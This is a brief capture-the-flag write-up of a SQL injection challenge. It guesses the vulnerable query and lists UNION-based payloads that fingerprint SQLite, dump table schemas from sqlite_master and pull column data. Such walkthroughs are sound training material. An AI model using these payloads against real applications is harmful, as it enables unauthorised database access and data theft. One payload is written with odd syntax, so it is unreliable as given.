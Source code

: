 I lost all my notes on this challenge so this solution was recreated after the
CTF ended. It was originally written in Python and gross.

I figured the original query was something like: `SELECT url, name FROM trolls WHERE name LIKE '%s'`

I used this query to figure out it was sqlite: `' OR 1=1 AND UNION ALL SELECT sqlite_version(), 1--`

I used this query to get all the tables, and their structure: `' OR 1=1 UNION ALL SELECT sql, name FROM sqlite_master WHERE type='table'--`.

I used this query to get the ids and letters from the tables: `' OR 1=1 UNION ALL SELECT id, letter FROM %s--`

